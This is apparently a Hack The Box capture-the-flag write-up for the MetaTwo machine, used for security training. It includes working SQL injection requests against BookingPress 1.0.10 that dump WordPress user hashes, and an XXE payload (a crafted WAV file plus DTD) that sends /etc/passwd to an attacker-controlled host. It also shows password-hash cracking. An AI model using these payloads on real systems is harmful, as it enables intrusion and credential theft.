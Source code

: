 # MetaTwo Writeup - by Thammanant Thamtaranon  
- MetaTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.186`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed multiple open ports:  
  - 21 (FTP)  
  - 22 (SSH)  
  - 80 (HTTP)  
  - 25764 (Unknown)  
  - 52677 (Unknown)  
- We then added `metapress.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I tried connecting to FTP, but it did not allow anonymous login.
- We attempted directory brute-forcing using `dirsearch`, but it timed out, similar to `gobuster`.  
- Using Burp Suite to inspect requests, we discovered a plugin `bookingpress` version 1.0.10.  
![Plugin](Plugin.png)

## Exploitation  
- We researched BookingPress 1.0.10 and found **CVE-2022-0739**, an Unauthenticated SQL Injection vulnerability.  
- Following the PoC, we first identified the `_wpnonce` value.  
![Nounce](Nounce.png)  
- We then executed a crafted request to extract database version information and confirmed SQL Injection worked.
```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
![Version](Version.png)  
- Next, we extracted user credentials from the database, finding users `admin` and `manager`.
```bash
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,1,2,3,4,5,6 from wp_users-- -'
```
![Credentials](Credentials.png)  
- We saved the hashes and cracked them using John the Ripper.  
![Manager](Manager.png)  
- Using the cracked credentials, we logged in as `manager` in WordPress.  
- The WordPress version was 5.6.2. Research revealed **CVE-2021-29447**, an XXE vulnerability when uploading WAV audio files with crafted metadata.  
- We created a malicious `payload.wav` and corresponding DTD file to exfiltrate `/etc/passwd`.
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.16.11:8000/xx3.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```
```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<attacker_ip>:8000/?leak=%file;'>">
``` 
![PASSWD1](PASSWD1.png)  
- Decoding the returned data confirmed the user `jnelson`.
```bash
echo '<BASE64_DATA>' | base64 --decode | php -r 'echo zlib_decode(file_get_contents("php://stdin"));'
```
- Attempting SSH initially failed, so we inspected the WordPress configuration and found the FTP credentials.  
![WP_Config1](WP_Config1.png)  
![WP_Config2](WP_Config2.png)  
- Using the credentials, we connected via FTP.  
![FTP](FTP.png)  
- We also discovered hardcoded credentials in `send_email.php`.  
![Jnelson_Cred](Jnelson_Cred.png)  
- Using these, we SSH’ed into the machine as `jnelson` and obtained the user flag.  
![Jnelson](Jnelson.png)

## Privilege Escalation  
- Listing files revealed a hidden directory `.passpie`.  
- Inside `/.passpie/ssh`, we found `root.pass`, which required a passphrase.  
- We downloaded `.keys` to our machine, extracted the private key block into `private.key`, and ran `gpg2john private.key > pgp.hash`, followed by `john --wordlist=/usr/share/wordlists/rockyou.txt pgp.hash`.  
![Cracked](Cracked.png)  
- On the target machine, we executed `passpie export ../passwords.txt` to extract credentials.  
- Finally, using `su root` with the retrieved password, we gained a root shell and captured the root flag.  
![Root](Root.png)

